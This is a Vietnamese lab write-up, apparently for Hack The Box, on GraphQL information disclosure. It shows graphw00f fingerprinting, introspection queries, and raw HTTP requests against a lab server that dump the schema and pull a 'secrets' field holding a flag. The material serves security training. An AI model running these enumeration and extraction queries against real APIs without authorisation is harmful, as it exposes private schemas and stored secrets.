


# Information Disclosure

Để khai thác một dịch vụ, cần enumeration và reconnaissance kỹ lưỡng nhằm xác định tất cả các attack vector có thể có. Mục tiêu là thu thập càng nhiều thông tin về dịch vụ càng tốt.

## 1. Xác định GraphQL Engine

Sau khi kiểm tra ứng dụng web, có thể thấy các request tới endpoint `/graphql` chứa GraphQL query → xác nhận ứng dụng sử dụng GraphQL.

Có thể dùng [`graphw00f`](https://github.com/dolevf/graphw00f) để xác định GraphQL engine. Tool gửi nhiều query, kể cả query sai, rồi dựa vào behavior và error message của backend để fingerprint engine.

Chạy `main.py` và `-d` để detect mode và `-f` để fingerprint và cung cấp base url để nó tự tìm GraphQL endpoint:

```bash
reDrose18@htb[/htb]$ python3 main.py -d -f -t http://172.17.0.2

                +-------------------+
                |     graphw00f     |
                +-------------------+
                  ***            ***
                **                  **
              **                      **
    +--------------+              +--------------+
    |    Node X    |              |    Node Y    |
    +--------------+              +--------------+
                  ***            ***
                     **        **
                       **    **
                    +------------+
                    |   Node Z   |
                    +------------+

                graphw00f - v1.1.17
          The fingerprinting tool for GraphQL
           Dolev Farhi <dolev@lethalbit.com>
  
[*] Checking http://172.17.0.2/
[*] Checking http://172.17.0.2/graphql
[!] Found GraphQL at http://172.17.0.2/graphql
[*] Attempting to fingerprint...
[*] Discovered GraphQL Engine: (Graphene)
[!] Attack Surface Matrix: https://github.com/nicholasaleks/graphql-threat-matrix/blob/master/implementations/graphene.md
[!] Technologies: Python
[!] Homepage: https://graphene-python.org
[*] Completed.
```

→ Backend sử dụng Graphene, một GraphQL framework cho Python.

## 2. Introspection

Introspection là tính năng của GraphQL cho phép query API để tìm hiểu cấu trúc của backend.

Thông qua trường `__schema`, có thể lấy thông tin về schema.

### Liệt kê tất cả Type

```graphql
{
  __schema {
    types {
      name
    }
  }
}
```



Kết quả có cả các type mặc định như Int, Boolean và các type do ứng dụng định nghĩa như UserObject.

### Xem các Field của một Type

```graphql
{
  __type(name: "UserObject") {
    name
    fields {
      name
      type {
        name
        kind
      }
    }
  }
}
```



Có thể phát hiện các field của UserObject, chẳng hạn:

- username
- password

kèm theo kiểu dữ liệu của chúng.

### Các truy vấn được hỗ trợ 

Hơn nữa, chúng ta có thể lấy được tất cả các truy vấn được hỗ trợ bởi hệ thống phụ trợ bằng cách sử dụng truy vấn này.

```graphql
{
  __schema {
    queryType {
      fields {
        name
        description
      }
    }
  }
}
```

Biết được tất cả query được backend hỗ trợ giúp xác định các attack vector tiềm năng và những query có thể dùng để lấy thông tin nhạy cảm.

### Full Introspection

Có thể sử dụng một introspection query đầy đủ để lấy gần như toàn bộ thông tin

```graphql
query IntrospectionQuery {
      __schema {
        queryType { name }
        mutationType { name }
        subscriptionType { name }
        types {
          ...FullType
        }
        directives {
          name
          description
          
          locations
          args {
            ...InputValue
          }
        }
      }
    }

    fragment FullType on __Type {
      kind
      name
      description
      
      fields(includeDeprecated: true) {
        name
        description
        args {
          ...InputValue
        }
        type {
          ...TypeRef
        }
        isDeprecated
        deprecationReason
      }
      inputFields {
        ...InputValue
      }
      interfaces {
        ...TypeRef
      }
      enumValues(includeDeprecated: true) {
        name
        description
        isDeprecated
        deprecationReason
      }
      possibleTypes {
        ...TypeRef
      }
    }

    fragment InputValue on __InputValue {
      name
      description
      type { ...TypeRef }
      defaultValue
    }

    fragment TypeRef on __Type {
      kind
      name
      ofType {
        kind
        name
        ofType {
          kind
          name
          ofType {
            kind
            name
            ofType {
              kind
              name
              ofType {
                kind
                name
                ofType {
                  kind
                  name
                  ofType {
                    kind
                    name
                  }
                }
              }
            }
          }
        }
      }
    }
```

Kết quả trả về có thể rất lớn, ta sẽ dùng [GraphQL-Voyager](http://apis.guru/graphql-voyager/) để mô tả mối quan hệ 

Trong môi trường thực tế, nên self-host GraphQL-Voyager thay vì sử dụng demo online để tránh làm lộ thông tin nhạy cảm ra bên ngoài.

---

```http
POST /graphql HTTP/1.1
Host: 154.57.164.75:31832
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://154.57.164.75:31832/post?id=1
Content-Type: application/json
Content-Length: 1922
Origin: http://154.57.164.75:31832
DNT: 1
Connection: keep-alive
Cookie: session=eyJyb2xlIjoidXNlciIsInVzZXIiOiJodGItc3RkbnQifQ.aoLDHQ.xptYrcn2pn2mcLjtitl5866MpWs
Priority: u=4

{"query":"query IntrospectionQuery {\r\n      __schema {\r\n        queryType { name }\r\n        mutationType { name }\r\n        subscriptionType { name }\r\n        types {\r\n          ...FullType\r\n        }\r\n        directives {\r\n          name\r\n          description\r\n          \r\n          locations\r\n          args {\r\n            ...InputValue\r\n          }\r\n        }\r\n      }\r\n    }\r\n\r\n    fragment FullType on __Type {\r\n      kind\r\n      name\r\n      description\r\n      \r\n      fields(includeDeprecated: true) {\r\n        name\r\n        description\r\n        args {\r\n          ...InputValue\r\n        }\r\n        type {\r\n          ...TypeRef\r\n        }\r\n        isDeprecated\r\n        deprecationReason\r\n      }\r\n      inputFields {\r\n        ...InputValue\r\n      }\r\n      interfaces {\r\n        ...TypeRef\r\n      }\r\n      enumValues(includeDeprecated: true) {\r\n        name\r\n        description\r\n        isDeprecated\r\n        deprecationReason\r\n      }\r\n      possibleTypes {\r\n        ...TypeRef\r\n      }\r\n    }\r\n\r\n    fragment InputValue on __InputValue {\r\n      name\r\n      description\r\n      type { ...TypeRef }\r\n      defaultValue\r\n    }\r\n\r\n    fragment TypeRef on __Type {\r\n      kind\r\n      name\r\n      ofType {\r\n        kind\r\n        name\r\n        ofType {\r\n          kind\r\n          name\r\n          ofType {\r\n            kind\r\n            name\r\n            ofType {\r\n              kind\r\n              name\r\n              ofType {\r\n                kind\r\n                name\r\n                ofType {\r\n                  kind\r\n                  name\r\n                  ofType {\r\n                    kind\r\n                    name\r\n                  }\r\n                }\r\n              }\r\n            }\r\n          }\r\n        }\r\n      }\r\n    }"}
```

response trả về copy vào https://apis.guru/graphql-voyager/ ta được 


Từ đây sửa để lấy secret 

```http
POST /graphql HTTP/1.1
Host: 154.57.164.75:31832
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://154.57.164.75:31832/post?id=1
Content-Type: application/json
Content-Length: 35
Origin: http://154.57.164.75:31832
DNT: 1
Connection: keep-alive
Cookie: session=eyJyb2xlIjoidXNlciIsInVzZXIiOiJodGItc3RkbnQifQ.aoLDHQ.xptYrcn2pn2mcLjtitl5866MpWs
Priority: u=4

{"query":"{secrets { id secret }}"}
```

response 

```http
HTTP/1.1 200 OK
Server: Werkzeug/3.0.4 Python/3.11.2
Date: Mon, 17 Aug 2026 08:31:50 GMT
Content-Type: application/json
Content-Length: 101
Connection: close

{"data":{"secrets":[{"id":"U2VjcmV0T2JqZWN0OjE=","secret":"HTB{ddd7c7354d1f06db3604b3bbc8ccf5cd}"}]}}
```

